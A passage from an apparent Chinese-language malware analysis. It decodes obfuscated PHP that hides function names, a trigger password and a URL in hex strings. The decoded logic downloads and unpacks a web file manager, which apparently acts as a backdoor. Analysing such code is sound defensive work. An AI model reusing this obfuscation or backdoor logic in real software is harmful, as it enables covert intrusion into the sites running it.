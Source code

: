 0x03 文件分析
=========

```php
$SQLKWD[SSHDB] = explode("|v|t|Z", "H*|v|t|Z41414741474741|v|t|Z41414741474147|v|t|Z7C3A7C2D7C35|v|t|Z7C3A7C2D7C35646566696E65647C3A7C2D7C35666F70656E7C3A7C2D7C3566707574737C3A7C2D7C3566636C6F73657C3A7C2D7C3569735F66696C657C3A7C2D7C35756E6C696E6B");
```

explode函数把字符串变为数组  
`explode(separator,string)`

*separator* ：规定在哪里分割字符串  
*string* ： 要分割的字符串

把这个字符串变为数组之后是这样的

```php
[0] => H*
[1] => 41414741474741
[2] => 41414741474147
[3] => 7C3A7C2D7C35
[4] => 7C3A7C2D7C35646566696E65647C3A7C2D7C35666F70656E7C3A7C2D7C3566707574737C3A7C2D7C3566636C6F73657C3A7C2D7C3569735F66696C657C3A7C2D7C35756E6C696E6B
```

```php
    [0] => 
    [1] => defined
    [2] => fopen
    [3] => fputs
    [4] => fclose
    [5] => is_file
    [6] => unlink
```

价值不大，继续分析，找到下一个explode

```php
$SQLKWD[SQLDBWD] = explode("|K|H|a", "H*|K|H|a41414747414147|K|H|a646566696E65|K|H|a41414747414141|K|H|a70|K|H|a|K|H|a3070656e2e736573616d65|K|H|a687474703A2F2F7374617469632E6B6F64636C6F75642E636F6D2F7570646174652F646F776E6C6F61642F6B6F646578706C6F726572342E34302E7A6970|K|H|a2E2F6B6F642E7A6970|K|H|a772B|K|H|a6B6F642E7A6970|K|H|a6B6F642F|K|H|a3C6120687265663D222E2F6B6F6422207461726765743D225F626C616E6B223EE689A7E8A18CE68890E58A9FE782B9E587BBE8BF9BE585A53C2F613E0A");
```

通过pack函测试数据得到如下关键信息：

```php
    [4] =>p
    [5] =>
    [6] =>0pen.sesame
    [7] =>http://static.kodcloud.com/update/download/kodexplorer4.40.zip
    [8] =>./kod.zip
    [9] =>w+
    [10] =>kod.zip
    [11] =>kod/
    [12] =><a href="./kod" target="_blank">执行成功点击进入</a>
```
